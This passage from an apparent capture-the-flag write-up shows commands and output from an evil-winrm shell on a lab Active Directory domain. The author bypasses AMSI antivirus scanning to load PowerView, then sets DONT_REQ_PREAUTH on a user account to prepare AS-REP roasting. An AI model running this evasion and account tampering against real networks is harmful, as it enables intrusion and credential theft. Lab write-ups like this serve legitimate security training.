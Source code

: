 To exploit this, we can use PowerView.ps1. However, it seems AMSI is blocking us:

```
*Evil-WinRM* PS C:\Users\sbauer\Documents> . .\Power.ps1
At C:\Users\sbauer\Documents\Power.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\sbauer\Documents\Power.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

This is pretty easy to bypass since we have an `evil-winrm` shell. We can just use `Bypass-4MSI` to do so:

```
*Evil-WinRM* PS C:\Users\sbauer\Documents> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!

*Evil-WinRM* PS C:\Users\sbauer\Documents> . .\Power.ps1
```

To abuse this, I learned from PayloadAllTheThings that we can basically set the attribute required for AS-REP Roasting to work:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md" %}

```powershell
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536

*Evil-WinRM* PS C:\Users\sbauer\Documents> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'

*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
DONT_REQ_PREAUTH               4194304
```

